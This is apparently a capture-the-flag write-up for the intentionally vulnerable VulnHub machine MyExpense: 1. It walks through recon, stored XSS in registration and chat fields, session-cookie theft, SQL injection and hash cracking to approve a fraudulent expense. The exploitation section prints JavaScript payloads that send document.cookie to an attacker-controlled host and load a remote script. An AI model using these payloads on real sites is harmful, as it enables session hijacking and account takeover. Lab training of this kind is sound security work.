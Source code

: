 ```yaml
---
layout: single
title: "VulnHub - MyExpense: 1"
excerpt: MyExpense is a deliberately vulnerable web application that allows you to train in detecting and exploiting different web vulnerabilities. Unlike a more traditional "challenge" application (which allows you to train on a single specific vulnerability), MyExpense contains a set of vulnerabilities you need to exploit to achieve the whole scenario.
date: 2025-10-08
classes: wide
header:
  teaser: /assets/images/vh.png
  teaser_home_page: true
categories:
  - vulnhub
tags:
  - xss
  - sqli
---
```

# Introduction
-------------
This writeup documents the penetration testing of the [**MyExpense: 1**](https://www.vulnhub.com/entry/myexpense-1,405/) machine. This machine has been downloaded from the [**VulnHub**](https://vulnhub.com) platform.

You are Samuel Lamotte and you have been fired from **Futura Business Informatique**. The company owes you €750, but you were fired. Right now, you are in your car in front of the company. Furthermore, you are on the company's internal network with your laptop. Your login credentials before being fired were **samuel:fzghn4lw**. 

Your mission will be to compromise the company's security in order to authorize the payment they owe you.

# Recon
------------------
## Enumeration of exposed services
----------------
First, we need to discover the IP of the MyExpense machine.

![](/assets/images/vh-myexpense/arp-scan.png)

Once we identify the victim machine it would be optimal to use **settarget** to set the target IP in the Polybar.

Usually, if the machine returns a TTL of 64 it's a Linux machine. If it returns a TTL of 128 it's a Windows machine. We can also use the util [**whichSystem**](https://github.com/Akronox/WichSystem.py). 

![](/assets/images/vh-myexpense/whichSystem.png)

Now we will perform a port scan on the machine. To work in an organized way we will use the function **mkt**.

![](/assets/images/vh-myexpense/mkt.png)

![](/assets/images/vh-myexpense/nmap_scan.png)

![](/assets/images/vh-myexpense/extractPorts.png)

![](/assets/images/vh-myexpense/targeted1.png)

![](/assets/images/vh-myexpense/targeted2.png)

We can see some ports open. The most interesting port is the 80 port. Once we have scanned all ports of the machine it's good to know the Debian codename behind the system, we need to Google the Apache version reported by nmap followed by '**launchpad**'.

![](/assets/images/vh-myexpense/launchpad.png)

We are facing a **Debian Stretch**.

## Web service enumeration
------------
Once the OS and exposed services have been enumerated it's time to enumerate the web server running on the port 80.

![](/assets/images/vh-myexpense/whatweb.png)

![](/assets/images/vh-myexpense/web.png)

![](/assets/images/vh-myexpense/wappalyzer.png)

As we know, we are facing a Debian Stretch machine running in the 80 port a web page with Apache and PHP.

## Fuzzing and file enumeration
-------------
We will apply brute force to the website to list directories and files. Once the attack finished, these were the results obtained:

![](/assets/images/vh-myexpense/gobuster1.png)

It detected several directories, among them it appears the admin panel at /admin. We will enumerate that directory, since accessing it returns **Error 403 - Forbidden**.

![](/assets/images/vh-myexpense/gobuster2.png)

We found a file 'admin.php' which we will access. We have an interesting table. We discover that our user is not samuel, but **slamotte**, and our account is currently disabled.

![](/assets/images/vh-myexpense/admin.php.png)


# Exploitation
-----------
## Identification and exploitation of vulnerabilities
------------
We will attempt to register a new account. After filling in the fields we notice the button is disabled; as simple as accessing the source code and removing the 'disabled' attribute from the button.

![](/assets/images/vh-myexpense/register.png)

If we look at the admin.php file we will see that the new account has been created but is disabled. So we will try to inject JavaScript when creating another account by placing a simple alert in 'Firstname' and another in 'Lastname' to see if it is vulnerable to XSS. If we access admin/admin.php it is interpreted correctly.

![](/assets/images/vh-myexpense/alert.png)

We will launch the following payload when creating a user:

![](/assets/images/vh-myexpense/pwned.js.png)

If we set up an HTTP server on port 80 with python3, we will notice that there is a user loading admin.php from time to time. We will load a payload in pwned.js to be executed by the victim and then, steal their session cookie.

![](/assets/images/vh-myexpense/stolen_cookie.png)

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.139/?cookie=' + document.cookie);
  request.send();
```

Once we obtain the user's session cookie we will inject it into our browser. It seems the user in question is an administrator, since when injecting it an error appears saying that an administrator user cannot be connected in two sessions.

Therefore, we will take advantage of this administrator user so that they perform the request I was going to make, which was to activate my user account.

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.126/admin/admin.php?id=11&status=active');
  request.send();
```

Once we access the site as slamotte, we must submit the expense report so that someone approves it.

![](/assets/images/vh-myexpense/750_sending.png)

In the information about my account we will see that I have a manager called Manon Riviere whom we can look up in admin.php. Also, we see there are several '**financial approvers**'. The most logical approach will be to trigger an XSS in the chat to steal cookies and, with luck, one will belong to a '**financial approver**'.

```js
var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.0.139:4646/?cookie=' + document.cookie);
  request.send();
```

We will listen on port 4646 and we will inject a message that contains:

```js
<script src="http://192.168.0.131:4646/pwned.js"></script>
```

![](/assets/images/vh-myexpense/user_cookies.png)

Once we receive requests, we will check them one by one until we first find Manon Riviere's (the account from which we will accept the payment). After that, we will go for Paul Baudouin who is my manager and also a financial approver and we will hijack his session.

![](/assets/images/vh-myexpense/manon_riviere_accepts.png)

The **Rennes** panel is vulnerable to **SQLI**. We will follow the following exploitation:

![](/assets/images/vh-myexpense/sqli1.png)

![](/assets/images/vh-myexpense/sqli2.png)

![](/assets/images/vh-myexpense/sqli3.png)

![](/assets/images/vh-myexpense/sqli4.png)

Finally, we obtain a string of users and passwords. We will format it with nvim to make it more readable.

![](/assets/images/vh-myexpense/hashes.png)

## Final exploitation
-----------------
To finish this intrusion we have to crack the hash of our target pbaudouin. We will do it online: [**https://hashes.com**](https://hashes.com)

![](/assets/images/vh-myexpense/cracked_hash.png)

To finish, we will log in as pbaudouin and send ourselves the €750.

![](/assets/images/vh-myexpense/expense_reports.png)

To obtain the flag we must log in as slamotte.

![](/assets/images/vh-myexpense/flag.png)

